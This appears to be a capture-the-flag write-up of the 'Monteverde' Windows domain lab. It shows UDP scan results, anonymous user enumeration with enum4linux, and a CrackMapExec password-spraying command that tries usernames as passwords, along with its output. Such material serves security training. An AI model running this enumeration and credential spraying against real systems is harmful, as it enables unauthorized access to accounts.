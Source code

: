 All UDP Ports

```
PORT    STATE SERVICE VERSION
123/udp open  ntp     NTP v3
389/udp open  ldap    Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Notes:

53/DNS- MEGABANK.LOCAL (<mark style="color:yellow;">We get a domain</mark>) -- Place into /etc/hosts

88/Kerberos- Can we perform AS-REP Roasting or Kerberoasting somewhere?

135/RPC- Enumerated, I could not find anything with this initially.

389/LDAP- Ldapdomaindump attempted anonymously with no success.&#x20;

## Enumeration

### enum4linux

```
[+] Server 10.129.128.21 allows sessions using username '', password ''

Domain: MEGA.BANK, MEGABANK.LOCAL

user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

* Place these users in a users.txt file
* Place the users in a passwords.txt file in case of password reuse

### CrackMapExec

```
crackmapexec smb 10.129.128.21 -u users -p passwords

SMB         10.129.128.21   445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE 
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-ata STATUS_LOGON_FAILURE 
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.129.128.21   445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-netapp STATUS_LOGON_FAILURE 
```
